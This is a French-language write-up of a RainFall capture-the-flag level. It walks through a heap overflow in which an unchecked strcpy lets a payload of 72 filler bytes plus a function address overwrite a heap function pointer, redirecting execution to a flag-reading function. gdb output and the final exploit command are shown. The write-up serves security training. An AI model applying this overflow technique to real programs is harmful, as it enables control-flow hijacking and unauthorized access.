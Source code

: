   * Ok on a une fonction n qui n'est pas appelée mais qui cat le fichier qu'on veut

## 2: Comportement
> Une fois recomposé, on comprend que le programme copie notre argument en parametre dans un buffer dans la heap et print "Nope".
> Une fonction qui cat notre flag n'est pas utilisée.

## 3: Exploit

### A: Explication

> On va grâce au strcpy non protégé faire un heap overflow et réécrire sur l'addresse de m contenue dans la heap.\
> En effet, quand on va overflow le malloc(64), on va réécrire sur le malloc(4) qui va être call.

### B: Creation de l'exploit

* Il nous faut donc: l'adresse de n et à partir de combien de char on va réécrire sur le malloc(4)

```shell
  # Addresse de m (vu pendant l'analyse)
  gdb-peda$ info function n
    [...]
    0x08048454  n
    [...]

  # On cherche au bout de combien de char on réécrit sur le malloc(4)
  gdb-peda$ pattern create 200 pattern6
    Writing pattern of 200 chars to filename "pattern6"
  gdb-peda$ run $(cat pattern6)
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    [...]
    [-------------------------------------code-------------------------------------]
    # L'addresse non reconnue puisque c'est notre pattern
    Invalid $PC address: 0x65414149
    [------------------------------------stack-------------------------------------]
    [...]
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0x65414149 in ?? ()
  gdb-peda$ pattern search
    Registers contain pattern buffer:
    [...]
    # On a notre offset
    EAX+0 found at offset: 72
    [...]
```

* On a donc tous les prérequis. En transformant en little indian l'addresse de n(\x54\x84\x04\x08), on va pouvoir construire la string suivante:
- `./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')`
```shell
  level6@RainFall:/tmp$ python -c 'print "A" * 72 + "\x54\x84\x04\x08"' > pattern6
```
